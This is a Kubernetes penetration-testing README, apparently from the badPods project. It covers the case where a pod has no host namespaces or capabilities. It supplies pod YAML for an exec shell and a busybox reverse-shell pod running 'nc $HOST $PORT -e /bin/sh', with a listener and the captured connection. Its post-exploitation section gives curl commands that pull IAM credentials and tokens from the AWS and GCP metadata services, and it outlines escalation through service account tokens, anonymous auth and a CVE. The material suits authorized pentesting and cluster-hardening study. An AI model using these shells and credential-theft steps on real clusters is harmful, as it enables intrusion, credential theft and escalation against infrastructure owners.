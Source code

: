 ## You have nothing

The pod security policy or admission controller has blocked access to all of the host's namespaces and restricted all capabilities.  **Do not despair**, especially if the target cluster is running in a cloud environment. 


# Pod Creation

## Create a pod you can exec into
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-nothing-allowed
  labels: 
    app: pentest
spec:
  containers:
  - name: nothing-allowed
    image: ubuntu
    command: [ "/bin/bash", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
  #nodeName: k8s-control-plane-node # Force your pod to run on a control-plane node by uncommenting this line and changing to a control-plane node name
  ```
[pod-nothing-allowed.yaml](pod-nothing-allowed.yaml)

#### Option 1: Create pod from local yaml 
```bash
kubectl apply -f pod-nothing-allowed.yaml 
```

#### Option 2: Create pod from github hosted yaml
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/yaml/nothing-allowed/pod-nothing-allowed.yaml 
```

#### Exec into pod 
```bash
kubectl exec -it pod-nothing-allowed -- bash
```

## Or, create a reverse shell pod
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-nothing-allowed-revshell
  labels: 
    app: pentest
spec:
  containers:
  - name: nothing-allowed-revshell
    image: busybox
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "nc $HOST $PORT  -e /bin/sh;" ]
  #nodeName: k8s-control-plane-node # Force your pod to run on a control-plane node by uncommenting this line and changing to a control-plane node name
  restartPolicy: Always  
  ```
[pod-nothing-allowed-revshell.yaml](pod-nothing-allowed-revshell.yaml)

#### Set up listener
```bash
nc -nvlp 3116
```

#### Create the pod
```bash
# Option 1: Create pod from local yaml without modifying it by using env variables and envsubst
HOST="10.0.0.1" PORT="3116" envsubst < ./yaml/nothing-allowed/pod-nothing-allowed-revshell.yaml | kubectl apply -f -
```

#### Catch the shell and chroot to /host 
```bash
~ nc -nvlp 3116
Listening on 0.0.0.0 3116
Connection received on 10.0.0.162 42035
```

# Post exploitation

* **Cloud metadata** - If cloud hosted, try to access the cloud metadata service. You might get access to the IAM credentials associated with the node, or even just a cloud IAM credential created specifically for that pod. In either case, this can be your path to escalate within the cluster, within the cloud environment, or both. 

```bash
curl http://169.254.169.254/latest/user-data # aws
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME] #aws
curl -H "Metadata-Flavor: Google" http://metadata.google.internal/computeMetadata/v1/[account]/default/token #gcp
```

* **Overly permissive service account** - If the default service account is mounted to your pod and is overly permissive, you can use that token to further escalate your privs within the cluster.
* **Anonymous-auth** - If either [the apiserver or the kubelets have anonymous-auth set to true](https://labs.f-secure.com/blog/attacking-kubernetes-through-kubelet/), and there are no network policy controls preventing it, you can interact with them directly without authentication. 
* **Exploits** - Is the kubernetes version vulnerable to an exploit, i.e. [CVE-2020-8558](https://github.com/tabbysable/POC-2020-8558)
* **Traditional vulnerability hunting** -Your pod will be able to see a different view of the network services running within the cluster than you likely can see from the machine you used to create the pod. You can hunt for vulnerable services by proxying your traffic through the pod. 




# Reference(s): 

* https://securekubernetes.com/
* https://madhuakula.com/kubernetes-goat/
* https://labs.f-secure.com/blog/attacking-kubernetes-through-kubelet/
* https://research.nccgroup.com/2020/02/12/command-and-kubectl-talk-follow-up/
* https://github.com/tabbysable/POC-2020-8558